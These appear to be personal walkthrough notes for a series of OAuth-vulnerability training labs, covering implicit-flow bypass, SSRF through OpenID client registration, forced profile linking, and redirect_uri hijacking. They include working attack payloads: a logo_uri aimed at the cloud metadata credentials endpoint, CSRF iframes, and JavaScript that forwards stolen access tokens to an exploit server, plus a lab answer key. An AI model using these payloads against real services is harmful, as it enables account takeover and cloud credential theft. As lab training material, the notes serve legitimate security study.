 ### Authentication bypass via OAuth implicit flow

To solve the lab, log in to Carlos's account. His email address is `carlos@carlos-montoya.net`

Check all the OAuth flow, intercept the one giving user information in the `/authenticate` endpoint. 
Get the 302 status code, and then, right click on the request, select `Request in browser`. Paste the URL and solved

---
### SSRF via OpenID dynamic client registration

To solve the lab, craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

I needed to follow the steps for this one, because it has a weird beginning:

1. Browse to `https://oauth-YOUR-OAUTH-SERVER.oauth-server.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`
2. Craft this request, to validate that you can register your own client application without authorization
```
POST /reg HTTP/1.1 
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net 
Content-Type: application/json 

{ 
	"redirect_uris" : [ 
		"https://example.com" 
	] 
}
```

3. Using Burp, audit the OAuth flow and notice that the "Authorize" page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
4. Add this to the crafted request to /reg: `"logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN"` get the client_id from the request, and replace it in the `/client/CLIENT-ID/logo` request. You should see the collaborator receiving a HTTP request. This validates that we had SSRF from the OAuth server.
5. Replace the `logo_uri` with this `"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"`. Copy the `client_id`from the request
6. Send this value with the `/client/CLIENT-ID/logo` request, and submit the SecretAccessKey

Answer: `rsWELUK1PqsS0V1jmsknpYzxW52xgUh29AQpfJKS`

---
### Forced OAuth profile linking

Notice the request does not include a `state` parameter to protect against CSRF attacks

When you sync your social media account, one of the requests sends a code value. 

That's the code you'll use to perform a CSRF attack, by using it to authenticate as the victim doing an iframe lead within the admin window. The payload will be an iframe with that URL as the source. The one containing the `code=xxxx`:

`<iframe src="https://LAB-ID.web-security-academy.net/oauth-linking?code=YOUR-CODE-HERE"></iframe>`

---
### OAuth account hijacking via redirect_uri

Complete the login flow, log out and log in again. You don't need to input anything now. 

You can modify the redirect_uri on the GET /auth?client_id= to anything you want. 

Go to exploit server, this is the body:
```html
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Deliver exploit, stole the code, log out from your account, and log in here with the code_
`https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE`

Delete Carlos account.

---
### Stealing OAuth access tokens via an open redirect

`https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`

Visit that URL to thest your exploit works, and the body on the exploit server must be:
```html
<script> window.location = '/?'+document.location.hash.substr(1) </script>
```

You should receive a new code in the access log.

Now, use this as body:
```html
<script> if (!document.location.hash) { window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' } else { window.location = '/?'+document.location.hash.substr(1) } </script>
```

Deiver exploit to victim, access log, and steal the code.

Send a request to the GET /me endpoint, and use that code as the authorization token.

Submit the API key as the solution.